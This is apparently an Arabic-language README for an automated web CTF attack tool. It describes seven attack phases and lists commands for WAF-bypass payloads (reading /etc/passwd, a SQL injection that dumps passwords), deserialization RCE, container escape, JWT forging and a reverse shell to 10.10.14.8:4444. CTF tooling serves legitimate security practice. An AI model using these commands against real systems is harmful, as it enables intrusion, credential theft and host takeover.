

# 🚩 WebCTF Suite - Enterprise Web CTF Toolkit & 7-Phase Auto-Pwn Offensive Engine

**WebCTF Suite** هي أداة سطر أوامر (CLI) متطورة وشاملة مخصصة لمسابقات الـ **Web Security CTF**. صُممت لتكون محركاً هجومياً ذاتي التشغيل يتبع منهجية هجومية متكاملة من **7 مراحل (7-Phase Offensive Pipeline)**، مع نظام **ذاكرة دائمة (Persistent Memory)** و **محرك تعلم تكيفي (Adaptive Learning Engine)** يتعلم حصرياً من العمليات الناجحة لرفع كفاءة وسرعة حل التحديات القادمة.

---

## 🧭 منهجية المراحل الـ 7 (The 7-Phase Methodology)



### تفاصيل مراحل الهجوم:
1. **المرحلة 1: جمع المعلومات والاستطلاع (Information Gathering & Reconnaissance):**
   - استكشاف السيرفر، لغة البرمجة، محرك القوالب، والـ Headers والـ Cookies.
   - زحف ذكي عميق (Deep Crawler) لاستخراج الروابط، نماذج الإدخال (Forms)، الباراميترات (`?file=`, `?page=`, `?cmd=`, `?id=`) ونقاط الـ API في ملفات الـ JS.
   - فحص التسريبات الحساسة وتفحص التعليقات المخفية في الـ HTML (`.git`, `.env`, `Dockerfile`, `backups`, إلخ).

2. **المرحلة 2: الفحص والتحليل الإحصائي (Scanning & Statistical/Structural Analysis):**
   - قياس سرعة الاستجابة وحجم الصفحات الأساسية (Baseline Profiling).
   - فحص انعكاس المدخلات (Reflection Context) عبر Canaries لكشف مواضع الحقن.
   - تحليل وفك وفحص محتويات وتشفير توكنات الـ JWT والـ Cookies.

3. **المرحلة 3: تحليل الثغرات والنمذجة (Vulnerability Analysis & Threat Modeling):**
   - تصنيف ومطابقة سطح الهجوم (Attack Surface Mapping) وترتيب أولويات الثغرات بناءً على الأوزان الذكية المتعلمة من التحديات السابقة.

4. **المرحلة 4: الاستغلال الفعلي (Active Exploitation):**
   - فحص وحقن ثغرات القوالب (**SSTI**) لمحركات (Jinja2, Twig, Smarty, SpEL) وتشغيل أوامر النظام.
   - استغلال تضمين الملفات (**LFI / PHP Stream Wrappers**) لقراءة وفك تشفير السورس كود وتنزيله محلياً.
   - حقن الأوامر (**Command Injection**) وتخطي فلاتر المسافات والرموز.
   - تخطي شاشات الدخول واستخراج البيانات عبر الـ **SQL Injection**.
   - كسر واستغلال ثغرات الـ **JWT** (`alg: none`، كسر الـ Secret Key، إعادة التوقيع).

5. **المرحلة 5: تصعيد الصلاحيات (Privilege Escalation - Web & System):**
   - **تصعيد صلاحيات الويب (Web PrivEsc):** فحص السورس كود المسرب لاستخراج المفاتيح السرية (`SECRET_KEY` / `JWT_SECRET`)، وتزوير توكنات Admin للدخول للوحات التحكم المحمية (`/admin`).
   - **تصعيد صلاحيات النظام (System PrivEsc):** فحص صلاحيات `sudo -l`، ملفات الـ SUID، والـ Capabilities فور الحصول على تشغيل أوامر.

6. **المرحلة 6: ما بعد الاستغلال والحفاظ على الوصول (Post-Exploitation & Enumeration):**
   - سحب متغيرات البيئة (`env`) وتفحص بيئة الـ Container/Host.
   - فحص شامل لملفات السورس كود المسترجعة عبر فاحص الـ Sinks الخطرة.

7. **المرحلة 7: صيد واستخراج الأعلام المتعددة (Multi-Flag Hunting & Victory Reporting):**
   - مسح شامل متعدد الأماكن للأعلام في ملفات النظام (`/flag*`, `/root/flag.txt`, `user.txt`, `env`, DB).
   - رسم المخطط البياني الزمني لمسار الهجوم (Attack Path Timeline).
   - توليد سكريبت بايثون مستقل (`exploit.py`) وأوامر `curl` جاهزة لإعادة تنفيذ الاستغلال.

---

## 🧠 الذاكرة الدائمة والتعلم التكيفي (Persistent Memory & Adaptive Learning)

| المسار | الوظيفة |
|---|---|
| **`storage/sessions/`** | حفظ حالة الجلسة والتحدي بالكامل حتى لا تعيد الفحص وتستأنف العمل عند الحاجة. |
| **`storage/loot/<target>/`** | مجلد لحفظ السورس كود المسرب، الأعلام (`flags.json`)، سكريبت الاستغلال (`exploit.py`)، والتقرير (`report.md`). |
| **`storage/knowledge/learning_db.json`** | قاعدة بيانات التعلم الذكي التي ترفع أوزان الـ Payloads والتكنيكات الناجحة تاريخياً لتنفيذ الاستغلال الفوري في التحديات المماثلة. |

---

## 🚀 دليل الاستخدام السريع (Quick Usage Guide)

### 1. تشغيل المحرك التلقائي الشامل (Auto-Pwn)
بمجرد تمرير رابط التحدي، ستبدأ الأداة فوراً بتنفيذ المراحل السبع بالكامل:
```bash
python webctf.py autopwn http://challenge.ctf/
```
أو في الوضع التفاعلي خطوة بخطوة:
```bash
python webctf.py autopwn http://challenge.ctf/ --step
```

### 2. إدارة الذاكرة والتعلم التكيفي (Memory Management)
```bash
# عرض إحصائيات التعلم والأوزان الذكية للـ Payloads
python webctf.py memory stats

# عرض الغنائم والسورس كود والأعلام المحفوظة
python webctf.py memory loot

# عرض الجلسات المخزنة
python webctf.py memory sessions

# إعادة تعيين ذاكرة التعلم
python webctf.py memory reset
```

### 3. تحليل وفهم مخرجات السيرفر والأخطاء (Semantic Response Diagnosis)
يمكنك تمرير أي رسالة خطأ، أو نص HTML، أو Stack Trace وسيقوم المحرك فوراً بتشخيصها وتحديد نوع محرك البيانات/القوالب واقتراح الحل المناسب:
```bash
python webctf.py response "Warning: mysqli_fetch_array() in /var/www/html/login.php on line 42"
```

### 4. محرك تخطي الحماية وتحوير الحمولات (WAF Bypass & Mutation Engine)
تحوير وتشفير الحمولات لتخطي فلاتر الحماية (Levels 1 to 3) للـ (SQLi, Command Injection, SSTI, LFI):
```bash
# تحوير أوامر النظام وتخطي فلاتر المسافات والكلمات المحظورة
python webctf.py bypass cmd "cat /etc/passwd" --level 3

# تحوير حمولات SQLi (Comments, Hex, Double URL, Multibyte)
python webctf.py bypass sqli "' UNION SELECT username, password FROM users-- -" --level 2

# تخطي فلاتر القوالب في Jinja2 عبر attr و request.args
python webctf.py bypass ssti "cat /flag*" --level 2 --engine jinja2
```

### 5. تصنيع حمولات التسلسل غير الآمن (Insecure Deserialization RCE)
توليد حمولات تنفيذ الأوامر والاتصال العكسي لـ Python Pickle, PyYAML, Node.js, PHP, و Java:
```bash
# Python Pickle RCE & Reverse Shell payload
python webctf.py deser pickle "cat /flag*"

# Node.js node-serialize IIFE
python webctf.py deser node "cat /flag*"

# PyYAML unsafe_load constructor
python webctf.py deser yaml "cat /flag*"

# Java Ysoserial Gadget Templates
python webctf.py deser java "cat /flag*"
```

### 6. الهروب من الحاويات وتصعيد الصلاحيات (Container Escape & PrivEsc)
فحص واستغلال الـ Containers ومقابس الـ Docker و SUID Binaries:
```bash
# توليد سكريبت الهروب عبر cgroup v1 release_agent (CAP_SYS_ADMIN)
python webctf.py escape cgroup "cat /root/flag* > /tmp/host_flag.txt"

# توليد أوامر الاستيلاء على الـ Host عبر Docker Socket (/var/run/docker.sock)
python webctf.py escape docker

# فحص استغلال ثنائيات GTFOBins SUID
python webctf.py escape suid find
```

### 7. ربط الثغرات وسلاسل الاستغلال (Vulnerability Chaining)
تحليل السورس كود المسرب لبناء سلاسل استغلال متتالية (LFI -> Secret/Deser -> RCE -> PrivEsc):
```bash
# بناء سلاسل الاستغلال السحابية والداخلية عبر SSRF
python webctf.py chain ssrf http://target.ctf/api/fetch url

# تحليل السورس كود المسرب لبناء سلاسل RCE وسكريبت بايثون مستقل
python webctf.py chain lfi ./storage/loot/127.0.0.1/app.py
```

---

### 8. الوضع التفاعلي (Interactive Shell)
```bash
python webctf.py
```
```bash
webctf > autopwn http://10.10.14.25:8080/
webctf > bypass cmd "cat /flag.txt" 3
webctf > deser pickle "cat /flag.txt"
webctf > escape cgroup
webctf > chain ssrf http://target.ctf/proxy
webctf > memory stats
webctf > response "jinja2.exceptions.TemplateSyntaxError in /app/routes.py"
webctf > decode auto NGM2OTZlNmIzYTIwNmY2YzYxNjc3Yjc0NjU3Mzc0N2Q=
webctf > ssti jinja2 "cat /flag.txt"
webctf > cmd rev 10.10.14.8 4444
webctf > jwt none <TOKEN>
webctf > analyze ./app.py python
```

---

## 📦 التثبيت والمتطلبات
```bash
pip install -r requirements.txt
```

